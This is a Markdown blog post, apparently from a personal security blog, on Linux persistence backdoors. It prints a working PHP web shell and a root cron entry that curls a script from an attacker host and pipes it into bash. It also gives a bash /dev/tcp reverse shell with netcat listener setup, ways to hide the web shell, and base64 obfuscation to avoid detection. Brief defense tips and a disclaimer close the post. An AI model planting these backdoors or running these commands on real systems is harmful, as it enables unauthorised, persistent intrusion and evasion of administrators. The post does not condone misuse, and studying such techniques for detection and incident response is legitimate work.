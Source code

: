 ```yaml
---
title : "Linux Backdoors"
date : 2025-06-25 
layout : post
categories : [BACKDOOR]
tags : [PHP,CRONJOB,BACKDOOR]
author : jana
---
```


# PHP and Cron Job Backdoors: Gaining Persistent Access Like a Pro

In this post, we’ll dive into two powerful techniques attackers use to maintain access to a compromised Linux server: **PHP backdoors** and **cron job backdoors**. These methods are often used in **post-exploitation** scenarios to establish **persistence**. Let's break them down clearly, like a mentor would.

---

## 🔍 What Is a Backdoor?

A **backdoor** is a hidden way to regain access to a system after the initial exploit. Once an attacker gains access (especially root access), they may leave a small script or schedule a task to reconnect to them — so even if you reboot the server or patch the vulnerability, they can come back in.

---

## 🐘 PHP Backdoors

A **PHP backdoor** is a small PHP script that allows an attacker to execute system commands via a web browser.

### ✅ Example Code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## 🔧 How It Works:
- This script checks for a cmd parameter in the request.

- It uses ** shell_exec() ** to run any system command sent via the browser.

- Output is displayed in ** <pre> ** tags for readability.

## 🌐 Usage:

- If the file is saved as shell.php in  ` /var/www/html ` , an attacker can do:

``bash
Copy code
http://<target-ip>/shell.php?cmd=whoami
```
## Other useful examples:

- ls – list files

- cat /etc/passwd – read sensitive files

- nc – establish reverse shells

## 🕵️ How Attackers Hide It:

- Inject the backdoor into an existing file like index.php.

- Change cmd to a less suspicious name (e.g., x1 or auth_key).

- Store the file in an obscure folder (e.g., /var/www/html/img/).

## ⏰ Cron Job Backdoors

- A cron job is a scheduled task. Attackers can schedule a reverse shell to run every minute, ensuring they maintain access.

## ✅ Example Cron Entry:

```
* * * * * root curl http://<attacker-ip>:8080/shell | bash
```
This does the following:

Runs every minute (* * * * *)

As the root user

Downloads a script from the attacker's server using curl

Pipes it into bash for execution

## 🔥 Shell Script Example:

- On the attacker’s server (hosted at port 8080), the shell file contains:

```bash

#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1

```
## 🛠️ Setup:

Host the shell:

```bash

python3 -m http.server 8080
```

- Start listening for a connection:

```bash
nc -nvlp <port>
```
- Wait for the cron to trigger.

## ⚠️ Why It's Risky:

- Visible in /etc/crontab

- Easily detected by sysadmins

- Logs may show repeated traffic to external IPs

## 🕶️ Making It Sneakier

- Attackers may:

- Use user-level crontabs via crontab -e instead of global /etc/crontab

- Base64-encode the reverse shell to avoid detection:

```bash

echo "<encoded_script>" | base64 -d | bash
```

- Name scripts something innocuous like /update-check or /sys-patch

## 🧠 Final Thoughts
- Both PHP and cron job backdoors are powerful tools in an attacker's toolkit. As an ethical hacker or security professional, understanding how these work is essential — both for offensive use (in labs/CTFs) and for detecting/removing them during incident response.

## 🛡️ Tips for Defense:

- Monitor for unexpected PHP files or parameters in web root.

- Regularly audit /etc/crontab and user crontabs.

- Monitor outbound connections from critical servers.

- Use tools like auditd, chkrootkit, or rkhunter.

### ⚠️ Disclaimer: This post is for educational and ethical hacking purposes only. Always have permission before testing any technique on a live system.
